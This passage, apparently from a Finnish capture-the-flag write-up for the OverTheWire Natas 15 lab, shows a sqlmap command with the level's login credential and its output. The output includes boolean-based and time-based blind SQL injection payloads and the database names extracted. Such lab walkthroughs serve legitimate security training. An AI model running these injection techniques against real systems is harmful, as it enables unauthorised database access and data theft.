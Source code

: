 
SQLMap komento mitä halutaan hakea (URL), sitten autentikointi, ja jne, että mikä data, stringit ja `--dbs` eli tarkistettaan **database** 
Tässä tuloksena kuitenkin antoi meille että löytyi saatavilla 3kpl tietokantaa (alhaalla) ja meitä kiinnostaa toi `natas15`.
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type Basic \
--auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data "username=natas16" \
--string "This user exists" \
--dbs

        ___
       __H__                                                                                                                              
 ___ ___[)]_____ ___ ___  {1.8.5#stable}                                                                                                  
|_ -| . [.]     | .'| . |                                                                                                                 
|___|_  [']_|_|_|__,|  _|                                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:48:29 /2025-05-18/

[14:48:29] [INFO] resuming back-end DBMS 'mysql' 
[14:48:29] [INFO] testing connection to the target URL
[14:48:30] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[14:48:30] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[14:48:30] [INFO] fetching database names
[14:48:30] [INFO] fetching number of databases
[14:48:30] [INFO] resumed: 3
[14:48:30] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:48:30] [INFO] retrieved: 
[14:48:30] [WARNING] reflective value(s) found and filtering out
information_schema
[14:48:36] [INFO] retrieved: performance_schema
[14:48:42] [INFO] retrieved: natas15
available databases [3]:
[*] information_schema
[*] natas15
[*] performance_schema
```